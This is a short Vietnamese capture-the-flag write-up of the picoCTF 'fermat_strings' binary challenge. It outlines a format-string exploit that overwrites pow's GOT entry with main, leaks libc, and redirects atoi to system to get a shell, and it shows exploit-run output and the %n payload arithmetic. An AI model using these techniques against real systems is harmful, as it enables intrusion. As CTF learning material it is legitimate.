 
Đại khái có thể hiểu là nó chỉ convert các chữ số trong 1 string thành int và kệ mấy cái kí tự khác, miễn là kí tự đầu tiên phải là số. EX: atoi(1a2) = 1

Kịch bản khai thác đại khái sẽ như sau:


* payload khai thác có dạng 1_blabla_for_exploit
* Lợi dụng format string để overwrite got của pow => main để có thể tiến hành gửi payload nhiều lần dễ dàng
* Leak ra được địa chỉ runtime của các hàm nào đấy để tính libc base, tuy nhiên cần xác định được thư viện sử dụng là gì 
* overwrite got của atoi => system, bởi có chỗ gọi atoi(A) , lúc này ghi A = "/bin/sh" => lấy shell

### overwrite pow GOT to main address




```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/Pico/fermat_strings$ python3 exploit_pow_main.py
[*] '/mnt/d/pwn_myself/Pico/fermat_strings/chall'
    Arch:     amd64-64-little
[*] '/mnt/d/pwn_myself/Pico/fermat_strings/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './chall': pid 24860
[*] running in new terminal: ['/usr/bin/gdb', '-q', './chall', '24860', '-x', '/tmp/pwnj63xhhen.gdb']
[-] Waiting for debugger: debugger exited! (maybe check /proc/sys/kernel/yama/ptrace_scope)
[*] Main address: 0x400837
[*] pow() GOT address: 0x601040
16
[*] Switching to interactive mode
Calculating for A: 11111111@\x10` and B: 1_______0x400bd8--------
$

```

```python
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself$ python3
Python 3.10.12 (main, Jun 11 2023, 05:26:28) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> len("1_______%4196361p%11$n--")
24
>>> len("Calculating for A: 11111111@\x10` and B: 1_______")
46
>>> 0x400837
4196407
>>> 0x400809
4196361
>>> 4196407 - 4196361
46


```
